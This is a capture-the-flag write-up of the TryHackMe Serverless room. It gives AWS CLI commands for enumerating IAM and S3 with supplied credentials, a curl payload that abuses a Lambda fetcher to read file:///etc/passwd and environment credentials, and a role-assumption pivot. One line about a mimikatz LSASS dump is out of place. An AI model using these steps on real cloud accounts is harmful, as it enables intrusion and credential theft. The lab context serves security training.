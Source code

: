 ```yaml
---
title: TryHackMe Serverless Hackfinity Battle Write-Up Walk Through
date: 2025-03-25 07:00:00 +0200
categories: [TryHackMe, CTF,Hackfinity Battle, TryHackMe Write Up]
tags: [Serverless, AWS, CloudHacking, SSRF, LFI, AWSCLI, Hackfinity, ctf]
description: "Looks like we got some AWS credentials for the DarkMatter gang. Well, at least for one of its contractors, a guy called ShadowFang. It seems they are hosting all their red team infrastructure in the cloud. Let’s try to get access to the information they stole from people and take it back!"
comments: false
media_subpath: /assets/img/
image:
  path: tryhackme-serverless.png
  alt: TryHackMe Dump Hackfinity Battle
---
```


# Introduction

Armed with the ShadowFang credentials, I navigated S3 buckets, exploited Lambda functions, and escalated privileges to uncover three flags hidden in the DarkMatter gang’s infrastructure. Here’s how I cracked it, step by step.

**[You can follow YouTube video walk through here](https://youtu.be/tgQVXn95UiE)**

## Flag 1: S3 Versioning
The journey began with enumerating AWS resources using ShadowFang’s creds. Listing buckets revealed `redteamapp-bucket`:

 been given full mimikatz LSASS dump, below part of it:

```console
aws configure
aws sts get-caller-identity

aws s3 ls

aws iam list-attached-user-policies --user-name sh4d0wF4NG
aws iam list-user-policies --user-name sh4d0wF4NG
aws iam list-groups-for-user --user-name sh4d0wF4NG
aws iam list-group-policies --group-name  redteamapp
aws iam list-attached-group-policies --group-name redteamapp
aws iam get-policy --policy-arn arn:aws:iam::471112876654:policy/redteamapp-policy
aws iam get-policy-version --policy-arn arn:aws:iam::471112876654:policy/redteamapp-policy --version-id v14
```
Downloading `admin/index.html` hinted at a flag that “used to be there.” Digging into versioning with:

```console
aws s3api list-object-versions --bucket redteamapp-bucket --prefix admin/
```
I spotted an older version (ID: `UERAkdEpjINhaB8GcvBmZY5hM8d.wNu5`). Retrieving it:

```console
aws s3api get-object --bucket redteamapp-bucket --key admin/index.html --version-id UERAkdEpjINhaB8GcvBmZY5hM8d.wNu5 flag1.html
```
yielded THM{SSE_*******}—Flag 1 secured.

**[You can follow YouTube video walk through here](https://youtu.be/tgQVXn95UiE)**

## Flag 2: Lambda Local File Inclusion

The old `index.html` mentioned a “Web Site Fetcher” Lambda, pointing to `https://wtygxa6iigudd534pityks7ymu0wzqpg.lambda-url.us-east-1.on.aws/`. Testing Local File Inclusion (LFI):



```console
curl -X POST -H "Content-Type: application/json" -d '{"url": "file:///etc/passwd"}' https://wtygxa6iigudd534pityks7ymu0wzqpg.lambda-url.us-east-1.on.aws/

```
delivered Flag 2—another win.

**[You can follow YouTube video walk through here](https://youtu.be/tgQVXn95UiE)**

## Flag 3: DynamoDB via Role Escalation

The same `/proc/self/environ` call gave Lambda role creds (`redteamapp-lambda-role-szx0n1l0`), but `aws dynamodb list-tables failed—limited perms`. The old index.html hinted at “Leak DB Administration,” suggesting a database. Assuming the `redteamapp-dev-role`:

```console
aws sts assume-role --role-arn arn:aws:iam::471112876654:role/redteamapp-dev-role --role-session-name dev-role
```
with Lambda creds, I got new credentials. Setting them:

```console
export AWS_ACCESS_KEY_ID=[DevKey]
export AWS_SECRET_ACCESS_KEY=[DevSecret]
export AWS_SESSION_TOKEN=[DevToken]
```

# Want the Full Walkthrough?

Check out my **[full video walkthrough](https://youtu.be/tgQVXn95UiE)** on my YouTube channel for step-by-step guidance:

**[You can follow YouTube video walk through here](https://youtu.be/tgQVXn95UiE)**

<img src="tryhackme-serverless-youtube.png"  alt="TryHackMe Serverless YouTube Video Walk through" >


